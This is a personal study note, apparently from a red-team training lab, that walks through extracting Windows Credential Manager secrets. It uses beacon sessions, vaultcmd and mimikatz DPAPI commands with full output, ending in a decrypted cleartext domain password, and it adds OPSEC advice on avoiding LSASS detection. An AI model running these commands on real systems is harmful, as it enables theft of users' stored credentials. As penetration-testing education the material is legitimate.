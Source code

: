 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Credential Manager]]  
___

## Description:  
If you go to the **Control Panel > Credential Manager** on a workstation and select **Windows Credentials**, you will see how this credential appears to the user. And opening the **Remote Desktop Connection** client shows how these creds are automatically populated for the target server.



The credential manager blobs are stored in the user's `AppData` directory.

```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D

```

The native `vaultcmd` tool can also be used to list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: DEV\bfarmer
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)

```

Or `mimikatz vault::list`.

```
beacon> mimikatz vault::list

Vault : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
    Name       : Web Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
    Items (0)

Vault : {77bc582b-f0a6-4e15-4e80-61736b6f3b29}
    Name       : Windows Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault
    Items (1)
      0.    (null)
        Type            : {3e0e35be-1b77-43e7-b873-aed901b6275b}
        LastWritten     : 2/25/2021 1:07:38 PM
        Flags           : 00000000
        Ressource       : [STRING] Domain:target=TERMSRV/srv-1
        Identity        : [STRING] DEV\bfarmer
        Authenticator   : 
        PackageSid      : 
        *Authenticator* : [BYTE*] 

        *** Domain Password ***

```

To decrypt the credential, we need to find the master encryption key.

First, run `dpapi::cred` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The **pbData** field contains the encrypted data and the **guidMasterKey** contains the GUID of the key needed to decrypt it. The Master Key information is stored within the user's `AppData\Roaming\Microsoft\Protect` directory (where `S-1-5-21-*` is their SID).

```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred

```

Notice how this filename **a23a1631-e2ca-4805-9f2f-fe8966fd8698** matches the **guidMasterKey** field above.

There are a few ways to get the actual Master Key content. If you have access to a high integrity session, you may be able to dump it from memory using `sekurlsa::dpapi`. However it may not always be cached here and this interacts with LSASS which is not ideal for OPSEC. My preferred method is to use the RPC service exposed on the Domain Controller, which is a "legitimate" means (as in, by design and using legitimate RPC traffic).

Run `mimikatz dpapi::masterkey`, provide the path to the Master Key information and specify `/rpc`.
```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

The **key** field is the key needed to decrypt the credential, which we can do with `dpapi::cred`.
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (10:09 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

